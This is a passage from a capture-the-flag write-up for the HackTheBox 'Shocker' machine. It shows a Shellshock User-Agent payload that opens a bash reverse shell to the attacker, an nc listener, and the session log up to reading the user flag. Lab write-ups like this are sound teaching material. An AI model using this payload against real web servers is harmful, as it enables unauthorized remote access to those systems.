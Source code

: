 ##  Gaining an Initial Foothold

I googled “shellshock reverse shell” and found this [blog](https://hackbotone.com/shellshock-attack-on-a-remote-web-server-d9124f4a0af3) explaining how to exploit the shellshock vulnerability to get a reverse shell on the system the web server is running on. The method to gain a reverse shell was fairly similar expect for the part where I used `Burp` instead of using `curl`

First I added the following string in the User Agent field in Burp.

```
() { ignored;};/bin/bash -i >& /dev/<IP>/4444 0>&1
```

Then I started up a listener on my machine using the same configuration in the above string.
```
nc -nlvp 4444
```

I went back to `Burp` and executed the request. 

![sck-4](https://user-images.githubusercontent.com/87711310/211397387-b05854a6-09c8-4069-ae41-5edb82ccd0a2.png)

Burp shouldn’t give you a response if the exploit worked. I went back to my listener and checked if I got a shell back.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/Shocker]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.56] 40972
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ whoami
whoami
shelly
```

I could easily get the `user flag` from `/shelly/user.txt`

```
shelly@Shocker:/usr/lib/cgi-bin$ ls
ls
user.sh
shelly@Shocker:/usr/lib/cgi-bin$ cd ..
cd ..
shelly@Shocker:/usr/lib$ cd ..
cd ..
shelly@Shocker:/usr$ cd ..
cd ..
shelly@Shocker:/$ ls
...
home
initrd.img
lib
...
shelly@Shocker:/$ cd home
cd home
shelly@Shocker:/home$ ls
ls
shelly
shelly@Shocker:/home$ cd shelly
cd shelly
shelly@Shocker:/home/shelly$ ls
ls
user.txt
shelly@Shocker:/home/shelly$ cat user.txt
cat user.txt
******************
```